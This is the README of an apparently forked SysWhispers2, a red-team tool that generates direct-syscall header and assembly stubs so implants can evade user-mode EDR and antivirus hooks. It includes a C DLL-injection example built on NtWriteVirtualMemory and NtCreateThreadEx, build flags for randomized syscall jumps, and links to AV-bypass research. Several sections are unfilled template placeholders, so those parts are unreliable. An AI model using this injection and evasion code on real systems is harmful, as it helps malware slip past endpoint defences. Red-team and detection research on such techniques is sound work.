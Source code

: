 ## 🚀 SysWhispers2

🔧 SysWhispers2 helps with evasion by generating header/ASM files that implants can use to make direct system calls, bypassing user-mode hooks. This fork includes additiona customizations and improvement.


## 🔑 Key Differences from Original SysWhispers2
  ✅ Enhanced Features: [Describe modifications, e.g., "Added support for XYZ syscalls."]
  
  ✅ Compatibility: [Mention extended OS/toolchain support.]
  
  ✅ Optimizations: [Highlight performance/usability improvements.]

## 🛠 Features

✔ Generates header/ASM files for direct syscalls.

✔ Supports all core syscalls with cross-version compatibility.

✔ Randomized function name hashes for evasion.

✔ Lightweight & easy integration.

## 📥 Installation
      git clone https://github.com/your-username/SysWhispers2.git
      cd SysWhispers2
    python syswhispers.py --help
    
## 🚦 Usage Examples
  🔹 Generate Common Syscalls
  
    python syswhispers.py --preset common -o syscalls_common
    
  🔹 Generate Custom Syscalls

    python syswhispers.py --functions NtProtectVirtualMemory,NtWriteVirtualMemory -o syscalls_mem
    
  🔹 Example: DLL Injection with Direct Syscalls
  c
    
    #include "syscalls.h" // Generated header
    void InjectDll(HANDLE hProcess, const char* dllPath) {
    HANDLE hThread = NULL;
    LPVOID lpAllocationStart = nullptr;
    SIZE_T szAllocationSize = strlen(dllPath);
    LPVOID lpStartAddress = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryA");

    NtAllocateVirtualMemory(hProcess, &lpAllocationStart, 0, (PULONG)&szAllocationSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    NtWriteVirtualMemory(hProcess, lpAllocationStart, (PVOID)dllPath, strlen(dllPath), nullptr);
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, hProcess, lpStartAddress, lpAllocationStart, FALSE, 0, 0, 0, nullptr);
    }
    
## 📜 Supported Functions
  Using --preset common includes:

  - NtCreateProcess

  - NtOpenThread

  - NtReadVirtualMemory

  - NtAllocateVirtualMemory

  - ... and more.

<details> <summary>📂 Click to expand full list</summary>
[Include the same list as in the original README or update it if needed.]

</details>
🔌 Integration
Visual Studio
Copy generated files (*.h, *.c, *.asm) into your project.

Enable MASM in Project → Build Customizations.

Add files and configure platform settings (x86/x64).

# MinGW + NASM

    # x86 Example
    i686-w64-mingw32-gcc -c main.c syscalls.c -Wall -shared
    nasm -f win32 -o syscalls.x86.o syscalls.x86.nasm
    i686-w64-mingw32-gcc *.o -o output.exe
    Random Syscall Jumps (Evasion)
    Compile with -DRANDSYSCALL and use rnd ASM files:


    x86_64-w64-mingw32-gcc main.c syscalls.c syscalls.rnd.x64.s -DRANDSYSCALL -Wall -o output.exe
    

### Script Output

```
PS C:\Projects\SysWhispers2> py .\syswhispers.py --preset common --out-file syscalls_common

python syswhispers.py -p all -a all -l all -o example-output/Syscalls

                  .                         ,--.
,-. . . ,-. . , , |-. o ,-. ,-. ,-. ,-. ,-.    /
`-. | | `-. |/|/  | | | `-. | | |-' |   `-. ,-'
`-' `-| `-' ' '   ' ' ' `-' |-' `-' '   `-' `---
     /|                     |  @Jackson_T
    `-'                     '  @modexpblog, 2021

SysWhispers2: Why call the kernel when you can whisper?

All functions selected.

Complete! Files written to:
        example-output/Syscalls.h
        example-output/Syscalls.c
        example-output/SyscallsStubs.std.x86.asm
        example-output/SyscallsStubs.rnd.x86.asm
        example-output/SyscallsStubs.std.x86.nasm
        example-output/SyscallsStubs.rnd.x86.nasm
        example-output/SyscallsStubs.std.x86.s
        example-output/SyscallsStubs.rnd.x86.s
        example-output/SyscallsInline.std.x86.h
        example-output/SyscallsInline.rnd.x86.h
        example-output/SyscallsStubs.std.x64.asm
        example-output/SyscallsStubs.rnd.x64.asm
        example-output/SyscallsStubs.std.x64.nasm
        example-output/SyscallsStubs.rnd.x64.nasm
        example-output/SyscallsStubs.std.x64.s
        example-output/SyscallsStubs.rnd.x64.s
        example-output/SyscallsInline.std.x64.h
        example-output/SyscallsInline.rnd.x64.h
```


## Related Articles and Projects

- [@modexpblog](https://twitter.com/modexpblog): [Bypassing User-Mode Hooks and Direct Invocation of System Calls for Red Teams](https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/)
- [@hodg87](https://twitter.com/hodg87): [Malware Mitigation when Direct System Calls are Used](https://www.cyberbit.com/blog/endpoint-security/malware-mitigation-when-direct-system-calls-are-used/)
- [@Cn33liz](https://twitter.com/Cneelis): [Combining Direct System Calls and sRDI to bypass AV/EDR](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/) ([Code](https://github.com/outflanknl/Dumpert))
- [@0x00dtm](https://twitter.com/0x00dtm): [Userland API Monitoring and Code Injection Detection](https://0x00sec.org/t/userland-api-monitoring-and-code-injection-detection/5565)
- [@0x00dtm](https://twitter.com/0x00dtm): [Defeating Userland Hooks (ft. Bitdefender)](https://0x00sec.org/t/defeating-userland-hooks-ft-bitdefender/12496) ([Code](https://github.com/NtRaiseHardError/Antimalware-Research/tree/master/Generic/Userland%20Hooking/AntiHook))
- [@mrgretzky](https://twitter.com/mrgretzky): [Defeating Antivirus Real-time Protection From The Inside](https://breakdev.org/defeating-antivirus-real-time-protection-from-the-inside/)
- [@SpecialHoang](https://twitter.com/SpecialHoang): [Bypass EDR’s memory protection, introduction to hooking](https://medium.com/@fsx30/bypass-edrs-memory-protection-introduction-to-hooking-2efb21acffd6) ([Code](https://github.com/hoangprod/AndrewSpecial/tree/master))
- [@xpn](https://twitter.com/_xpn_) and [@domchell](https://twitter.com/domchell): [Silencing Cylance: A Case Study in Modern EDRs](https://www.mdsec.co.uk/2019/03/silencing-cylance-a-case-study-in-modern-edrs/)
- [@mrjefftang](https://twitter.com/mrjefftang): [Universal Unhooking: Blinding Security Software](https://threatvector.cylance.com/en_us/home/universal-unhooking-blinding-security-software.html) ([Code](https://github.com/CylanceVulnResearch/ReflectiveDLLRefresher))
- [@spotheplanet](https://twitter.com/spotheplanet): [Full DLL Unhooking with C++](https://ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++)
- [@hasherezade](https://twitter.com/hasherezade): [Floki Bot and the stealthy dropper](https://blog.malwarebytes.com/threat-analysis/2016/11/floki-bot-and-the-stealthy-dropper/)
- [@hodg87](https://twitter.com/hodg87): [Latest Trickbot Variant has New Tricks Up Its Sleeve](https://www.cyberbit.com/blog/endpoint-security/latest-trickbot-variant-has-new-tricks-up-its-sleeve/)


## References to SysWhispers

- [@JFaust_](https://twitter.com/JFaust_): Process Injection [Part 1](https://sevrosecurity.com/2020/04/08/process-injection-part-1-createremotethread/), [Part 2](https://sevrosecurity.com/2020/04/13/process-injection-part-2-queueuserapc/), and [Alaris loader](https://sevrosecurity.com/2020/10/14/alaris-a-protective-loader/) project ([Code](https://github.com/cribdragg3r/Alaris))
- [@0xPat](https://www.twitter.com/0xPat): [Malware Development Part 2](https://0xpat.github.io/Malware_development_part_2/)
- [@brsn76945860](https://twitter.com/brsn76945860): [Implementing Syscalls In The CobaltStrike Artifact Kit](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/)
- [@Cn33liz](https://twitter.com/Cneelis) and [@_DaWouw](https://twitter.com/_DaWouw): [Direct Syscalls in Beacon Object Files](https://outflank.nl/blog/2020/12/26/direct-syscalls-in-beacon-object-files/) ([Code](https://github.com/outflanknl/InlineWhispers))
    
## ⚠️ Caveats
  ❌ Graphical subsystem syscalls (win32k.sys) are not supported.
  
  ❌ Tested on [Your Environments].

## Troubleshooting

  - Type redefinitions errors: a project may not compile if typedefs in `syscalls.h` have already been defined.
  - Ensure that only required functions are included (i.e. `--preset all` is rarely necessary).
  - If a typedef is already defined in another used header, then it could be removed from `syscalls.h`.
    
## 🙏 Credits
   Based on the original SysWhispers2 by @Jackson_T and @modexpblog.
   Additional contributions by Mangala-Mnmatharaja🎯.

## 📜 License
Apache License 2.0. See LICENSE[http://www.apache.org/licenses/] for details.

